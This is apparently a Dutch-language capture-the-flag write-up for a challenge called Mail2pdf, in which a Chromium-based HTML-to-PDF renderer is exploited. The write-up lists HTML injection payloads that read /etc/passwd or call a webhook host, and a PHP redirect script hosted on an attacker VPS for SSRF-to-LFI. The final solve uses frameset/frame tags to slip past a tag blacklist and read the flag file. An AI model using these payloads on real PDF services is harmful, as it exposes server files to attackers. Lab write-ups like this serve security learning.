






# Writeup Mail2pdf 

De challenge description geeft het volgende aan: 
```text
The mail operations team uses Mail2PDF to turn campaign HTML into a printable preview 📄 before a message enters the outbound queue.
```

## Local opzetten
Als je zelf wilt testen met stukjes code weghalen moet je het opnieuw builden 
```
docker compose down
docker compose build --no-cache
docker compose up -d
```

We hebben dus een website dat HTML omzet in pdf: 

Zodra we klikken op de button `Generate PDF` zien we een dat de HTML input dat wordt meegestuurd daadwerkelijk op de PDF verschijnt.


Een aantal bekende manieren om dit te escaleren naar iets met daadwerkelijk impact is (bv JS kunnen executen): 
```html


<link rel="stylesheet" href="https://{webhook_url}/2">
<iframe src="https://{webhook_url}/3"></iframe>
<iframe src="file:///etc/passwd" width="800" height="500"></iframe>
<object data="file:///etc/passwd" width="800" height="500">
<portal src="file:///etc/passwd" width="800" height="500">
<annotation file="/etc/passwd" content="/etc/passwd" icon="Graph" title="LFI" />
<script>
 x = new XMLHttpRequest();
 x.onload = function(){
  document.write(this.responseText)
 };
 x.open("GET", "file:///etc/passwd");
 x.send();
</script>
```

Maar als we deze tags erin zetten merken we direct dat het niks doet. 

## Source checken
We kunnen zien dat playwright wordt gebruikt
```js
4: const { chromium } = require('playwright');
```
Wat we nodig hebben is de flag natuurlijk, hier zien we dat die in `/app/flag.txt` zit. 
```js
7: fs.writeFileSync('/app/flag.txt', process.env.FLAG || 'NHC{local_test_flag}');
```

Zoals we al zagen toen we het blackbox aan het verkennen waren hadden we te maken met tags die werken geblokkeerd.
Die zien we ook weer terug hier.
```js
const blockedTag = /<(?:script|iframe|object|embed|link|meta|base)\b/i;
const blockedHandler = /\bon[a-z0-9_-]+\s*=/i;
let activeRenders = 0;
```
BTW: 
Een ander iets minder bekende manier om van JS input SSRF te krijgen naar LFI is om het volgende te doen als file:// als input wordt geblokkeerd: 
1. Gebruik een vps oid en sla deze code op als lfi.php
```php
<?php header('Location: file://' . $_GET['url']); ?> 
```
2. run je server
```bash
php -S 0.0.0.0:8888
```
3. Gebruik dit als input in de pdf:
```html
<iframe src="http://{vps_ip}:8888/lfi.php?url=/etc/passwd" width="800" height="1000"></iframe>
```
Dan wordt er een redirect gedaan naar local file contents en rendert je pdf met in dit geval `/etc/passwd`
Helaas kan dit hier niet doordat `<iframe>` geblokeerd wordt. 


## Hoe dan wel

Het filter gebruikt een blacklist zoals hierboven al getoond is. 
We kunnen dus geen tags gebruiken maar iets als 
```html

```
Zien we dat wel werkt

We kunnen dus bij local files, maar we kunnen geen text laden in ``. Dus we moeten iets anders proberen.

`<iframe>` staat in de blacklist, anders zouden we `<iframe src="file:///etc/passwd">` kunnen gebruiken.

Maar de oudere HTML4-tags check: (https://www.w3schools.com/tags/tag_frameset.asp) 
 
Daarin staat: `The <frameset> tag was used in HTML 4 to define a frameset.` 
en dan hier meer [info](https://www.quackit.com/html/html_4/tags/html_frameset_tag.cfm) hoe te gebruiken.
Daar lezen we dat voordat `<iframe>` bestond in HTML4 `<frameset>` gebruikt werd met een src defined in `<frame>`


## Solve
`<frame>` en `<frameset>` staat niet in de blacklist. Chromium ondersteunt deze tags nog steeds. Daardoor kunnen we het volgende gebruiken:

```js
<frameset>
    <frame src="file:///app/flag.txt">
</frameset>
```

Deze payload bevat geen blocked tags en ook geen event handlers zoals `onload` of `onerror`, daarom komt dus door beide regexchecks heen.

Wanneer Chromium onze `<frame>` verwerkt, opent het daarom:

```
file:///app/flag.txt
```

JavaScript hoeft de inhoud van het frame niet uit te lezen. Chromium hoeft het bestand alleen zichtbaar te renderen, 
waarna `page.pdf()` die input in de PDF zet:

```
return await page.pdf({
    format: 'A4',
    printBackground: true,
    displayHeaderFooter: false,
    tagged: false,
    outline: false
});
```

De solve payload is uiteindelijk:

```js
<frameset><frame src="file:///app/flag.txt"></frameset>
```

Na het genereren verschijnt de inhoud van `/app/flag.txt` in de PDF:

